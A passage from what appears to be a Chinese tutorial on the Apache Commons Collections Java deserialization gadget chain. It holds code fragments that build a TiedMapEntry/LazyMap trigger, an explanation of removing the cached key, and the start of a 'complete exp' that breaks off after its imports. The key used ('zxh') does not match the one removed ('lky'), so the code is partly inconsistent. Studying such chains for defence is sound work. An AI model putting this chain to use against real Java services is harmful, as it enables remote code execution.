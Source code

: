 ```plain
        TiedMapEntry tiedMapEntry = new TiedMapEntry(Lazymap,"zxh");//LazyMap.get()这个方法的调用本来就没有参数，所以我们第二个参数为就随便写即可

        HashMap<Object,Object> m2 = new HashMap<>();
        m2.put(tiedMapEntry,"lituer");//触发hash()
        serialize(m2);
        //序列化过程结束

        Field factoryFied = LazyMap.class.getDeclaredField("factory");
        factoryFied.setAccessible(true);
        factoryFied.set(Lazymap,cha);

    }
```

但是这样还是执行不成功

来看下一步原因，问题出现再 LazyMap 类下的 get 方法

[![](assets/1700127979-d08bc04bc4b65f22c5e278c6243e0b8b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116155132-f55c9d1a-8454-1.png)

当序列化的时候，我们是可以过 if 的，但是下面的红框中，又调用了一边 put 方法，这样就把我们的这个 key 写入到了 map 里面，当我们反序列化的时候，同样的过程同样的 key，又要在序列化的时候 put 将这个 key 写入了 map，所以 map.containsKey(key) 就为 ture 了，就过不了 if 了

解决这个问题的方法很简单，删了这个 key 不久完了吗

```plain
LazyMap.remove("lky");
```

我们在要序列化过程走完之后删除这个参数就行了

### 完整 exp

```plain
package org.example;


import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;


import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CommonscollectionsTest {
```